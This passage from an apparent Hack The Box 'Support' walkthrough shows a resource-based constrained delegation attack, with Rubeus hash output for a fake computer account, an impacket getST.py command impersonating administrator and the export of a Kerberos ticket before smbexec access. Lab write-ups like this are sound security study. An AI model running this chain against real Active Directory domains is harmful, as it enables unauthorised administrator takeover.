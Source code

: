 With Rubeus, generate the fake computer object password hashes. Since we created the computer object with the password 123456 we will need to specify that in the request.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> ./r.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
  
  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : 123456
[*] Input username             : FAKE01$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostfake01.support.htb
[*]       rc4_hmac             : 32ED87BDB5FDC5E9CBA88547376818D4
[*]       aes128_cts_hmac_sha1 : 4799D0F80833802EE7F1412BD30DCD5C
[*]       aes256_cts_hmac_sha1 : 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
[*]       des_cbc_md5          : 836D4C85A4F23B62
```

We are looking for the value in the ‘aes256\_cts\_hmac\_sha1’ field. 

Kerberos Ticket Impersonation
-----------------------------

Back on our local machine we can use impacket's getST tool to request a kerberos ticket granting ticket (TGT) using the password hash that we just generated.

```text-plain
/home/kali/Desktop/HTB/Tools/impacket/examples/getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

We will need to set the local variable of KERB5CCNAME to pass the ccahe TGT file for the requested service.

```text-plain
export KRB5CCNAME=administrator.ccache
```

Privileged Shell Access
-----------------------
Lastly we can use impacket's smbexec.py tool to connect to the target using the TGT we aquired to impersonate the administrator account. 
